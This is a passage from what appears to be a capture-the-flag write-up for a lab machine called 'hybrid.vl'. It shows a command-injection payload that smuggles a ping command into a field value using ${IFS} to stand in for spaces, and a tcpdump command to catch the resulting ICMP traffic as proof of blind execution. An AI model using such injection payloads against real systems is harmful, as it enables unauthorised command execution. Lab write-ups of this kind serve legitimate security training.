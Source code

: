 Now let’ exploit it

```bash
admin&ping${IFS}-c${IFS}3${IFS}10.8.5.233&hybrid.vl
```

![image.png](../images/hybrid%209.png)

Now let’s open tcpdump on our machine

```bash
sudo tcpdump -i tun0 icmp
```

![image.png](../images/hybrid%2010.png)

Now let’s see if we got connection
